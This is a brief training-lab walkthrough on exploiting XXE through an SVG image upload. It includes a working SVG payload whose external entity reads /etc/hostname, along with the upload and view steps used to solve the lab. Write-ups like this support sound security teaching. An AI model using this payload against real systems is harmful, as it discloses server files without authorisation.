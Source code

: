 # Lab: Exploiting XXE via image file upload

> Lab Objective: upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

- Try uploading an avatar in the comments section.

- The avatar is in svg extension, and the content is:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY fetch SYSTEM "file:///etc/hostname">]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="23" x="8" y="28">&fetch;</text>
</svg>
```

- Submit the comment, then view the uploaded avatar, you'll be able to read the `/etc/hostname` content.
  ![1st screenshot](./attachments/1.png)

- Copy that value then submit it, and the lab is solved successfully.
  ![2nd screenshot](./attachments/2.png)

---
